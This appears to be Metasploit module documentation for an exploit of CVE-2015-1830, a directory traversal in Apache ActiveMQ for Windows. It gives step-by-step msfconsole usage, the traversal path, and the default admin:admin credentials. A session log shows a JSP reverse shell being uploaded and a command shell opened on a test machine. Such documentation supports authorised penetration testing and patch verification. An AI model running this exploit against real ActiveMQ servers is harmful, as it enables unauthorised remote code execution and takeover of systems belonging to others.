 ## Introduction

A directory traversal vulnerability was discovered in the fileserver upload/download functionality for blob messages in Apache ActiveMQ 5.x before 5.11.2 for Windows. The vulnerability, tracked as CVE-2015-1830, allows remote attackers to create JSP files in arbitrary directories via unspecified vectors.

Because vulnerable servers allow for directory traversal, they will accept HTTP PUT requests for `/fileserver/..\\admin\\` and process these as requests for `/admin/`. For the PUT request to succeed, credentials need to be provided.

This module exploits CVE-2015-1830 by attempting to upload a JSP payload to a target via an HTTP PUT requests for `/fileserver/..\\admin\\` using the default credentials `admin:admin` (or any other credentials provided by the user). It then issues an HTTP GET request to `/admin/<payload>.jsp` on the target in order to trigger the payload and obtain a shell. The module has been succesfully tested against ActiveMQ 5.11.1 on a Windows 7 machine.

## Verification Steps

1. Start msfconsole.
2. Do: `use exploit/windows/http/apache_activemq_traversal_upload`.
3. Do: `set RHOSTS [IP]`. This option is used to set the IP address of the remote system running Apache ActiveMQ.
4. Do: `set PAYLOAD [payload]`. This option can be used to set the payload to use against the target. The default payload is `java/jsp_shell_reverse_tcp`.
5. Do: `set LHOST [IP]`. This option is used to set the IP address of the local machine the payload should establish a connection with.
6. Do: `exploit`.

## Options

1.  `PASSWORD`. The default setting is `admin`, which is the default password for the ActiveMQ administrator account.
2.  `PATH`. This option is the traversal path. `/fileserver/..\admin\` by default.
3.  `USERNAME`. The default setting is `admin`, which is the default ActiveMQ administrator account.

## Scenarios

```
msf5 exploit(windows/http/apache_activemq_traversal_upload) > show options

Module options (exploit/windows/http/apache_activemq_traversal_upload):

   Name       Current Setting        Required  Description
   ----       ---------------        --------  -----------
   PASSWORD   admin                  yes       Password to authenticate with
   PATH       /fileserver/..\admin\  yes       Traversal path
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.2            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8161                   yes       The target port (TCP)
   SSL        false                  no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                      yes       The base path to the web application
   USERNAME   admin                  yes       Username to authenticate with
   VHOST                             no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


msf5 exploit(windows/http/apache_activemq_traversal_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444 
[*] Uploading payload...
[*] Payload sent. Attempting to execute the payload.
[*] Payload executed!
[*] Command shell session 1 opened (192.168.1.1:4444 -> 192.168.1.2:49194) at 2020-02-04 10:55:36 +0100

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop\activemq 5.11.1\apache-activemq-5.11.1\bin\win64>
```

## References

1. <https://www.cvedetails.com/cve/CVE-2015-1830/>
2. <https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt>
